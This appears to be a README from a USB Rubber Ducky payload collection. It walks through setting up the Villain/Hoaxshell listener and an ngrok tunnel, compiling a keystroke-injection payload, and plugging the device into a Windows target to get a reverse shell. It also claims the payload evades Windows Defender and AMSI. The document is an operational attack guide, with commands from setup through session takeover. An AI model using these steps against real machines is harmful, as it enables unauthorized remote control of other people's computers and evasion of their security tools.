 **Title: Hoaxshell via Villain Payload and NGROK Tunnel**

<p>Author: HackingMark<br>
OS: Windows<br>
Version: 1.0<br>
Requirements: DuckyScript 3.0, powershell, Linux Maschine with Villain, NGROK</p>

**What is Villain?**
#
*Villain is a Toolset to setup Payloads and Listener for Hoaxshell*
*Hoaxshell is actually undetected by Windows Defender and the Payload is optimized to bypass AMSITrigger*
*The Powershell Payload connects the target Machine back to the Hoaxshell Server, NGROK makes this Server reachable from the Internet. *
*That way you can catch your session from everywhere. Once your session is established, you can open an interactive shell.*



**How to use this Payload**

First clone Villain from Repo:
`git clone https://github.com/t3l3machus/Villain`
Then install Requirements:
`cd Villain`
`pip install -r ./requirements.txt`
Allow Villain to start:
`chmod +x ./Villain.py`
Fire it up:
`./Villain.py`
Generate a payload to get the session identifier:
`generate os=windows lhost=0.0.0.0 lport=8080`
![alt text](https://github.com/HackingMark/usbrubberducky-payloads/blob/master/payloads/library/remote_access/VillainShellviaNGROKTunnel/media/villain.png)

Establish NGROK Tunnel forwarding Traffic to our Hoaxshell Engine
`ngrok http 8080`
![alt text](https://github.com/HackingMark/usbrubberducky-payloads/blob/master/payloads/library/remote_access/VillainShellviaNGROKTunnel/media/ngrok1.png)
Leave this Window open
![alt text](https://github.com/HackingMark/usbrubberducky-payloads/blob/master/payloads/library/remote_access/VillainShellviaNGROKTunnel/media/ngrok2.png)

**Preparing the Payload:**
You need 2 Values from above: NGROK HTTPS Link and Session Identifier from Villain
Put it into the Payload then compile it to inject.bin and download.
![alt text](https://github.com/HackingMark/usbrubberducky-payloads/blob/master/payloads/library/remote_access/VillainShellviaNGROKTunnel/media/payloadstudio.png)

Copy your Inject.bin to your Ducky!

<p>Plug your Ducky into a Windows target.<br>
Achieve reverse shell.<br>
   open a shell with </p>
   `shell SESSION-ID`
